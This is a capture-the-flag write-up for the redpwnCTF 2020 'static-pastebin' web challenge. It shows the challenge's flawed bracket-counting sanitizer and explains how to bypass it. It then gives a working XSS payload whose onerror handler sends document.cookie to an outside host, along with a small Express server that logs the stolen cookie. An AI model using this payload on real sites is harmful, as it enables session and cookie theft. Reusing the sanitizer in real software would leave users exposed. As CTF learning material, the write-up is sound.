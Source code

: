 ```yaml
---
title: static-pastebin
date: 2020-06-23
tags: web, xss
ctf: redpwnCTF 2020
---
```

## Problem
```
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution
The site takes user input and creates a webpage using the given input. It encodes the input into base64 to create a paste, and then decodes it from the url to render it. For example, a paste with the text ```test``` generates the URL ```https://static-pastebin.2020.redpwnc.tf/paste/#dGVzdA==```, as ```dGVzdA==``` is the base64 encoding of ```test```.

The challenge also provides a link to submit a paste to the admin of the site, who would visit the link. Thus, this is XSS (cross site scripting) challenge.

Looking at the code to decode a paste, we see that there is very basic (and flawed) sanitzation being used to attempt to stop XSS attacks:

```js
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```

To get around this, we can begin our string with a ```>``` character to decrement ```brackets``` by 1. Then, we can add a ```<``` character which increments ```brackets``` back to 0, so that ```<``` is added to the result string.

Knowing this, we can create an XSS payload:
```html
><IMG SRC=/ onerror="fetch('https://api.sunnyzuo.com/' + document.cookie)">
```

This code will attempt to load an image from the ```/``` filepath where no image exists. This, the ```onerror``` code will exceute, which sends a request to https://sunnyzuo.com with the document as the url slug. We can create a basic server at the domain to log the cookie:

```js
const express = require('express');
const app = express();

app.get('*', function(req, res) {
    log(req.path);
});

app.listen(8000);
```

After sending the link to the admin bot, we find the flag in our logs:
```/flag=flag{54n1t1z4t10n_k1nd4_h4rd}```


**Flag:** ```flag{54n1t1z4t10n_k1nd4_h4rd}```